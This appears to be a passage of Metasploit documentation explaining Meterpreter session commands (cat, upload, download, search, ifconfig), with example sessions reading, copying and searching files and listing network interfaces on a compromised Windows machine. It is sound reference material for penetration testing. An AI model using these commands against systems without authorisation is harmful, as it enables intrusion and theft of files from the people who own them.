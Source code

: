 **cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat C:\\file.txt
Hello world!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/something.txt C:\\Users\\user\\Desktop\\something.txt
[*] uploading  : /tmp/something.txt -> C:\Users\user\Desktop\something.txt
[*] uploaded   : /tmp/something.txt -> C:\Users\user\Desktop\something.txt
meterpreter >
```

The ```-r``` option for the command also allows you to upload recursively.

**download command**

The ```download``` command allows you download a file from the remote target to your machine.
For example:

```
meterpreter > download C:\\Users\\user\\Desktop\\something.txt /tmp/
[*] downloading: C:\Users\user\Desktop\something.txt -> /tmp//something.txt
[*] download   : C:\Users\user\Desktop\something.txt -> /tmp//something.txt
meterpreter > 
```

The ```-r``` option for the command also allows you to download recursively.

**search command**

The ```search``` command allows you to find files on the remote file system. For example, this
demonstrates how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 1 result...
    .\something.txt (5 bytes)
```

Note that without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the commands allows you to search recursively.

**ifconfig command**

The ```ifconfig``` command displays the network interfaces on the remote machine:

```
meterpreter > ifconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
...
```
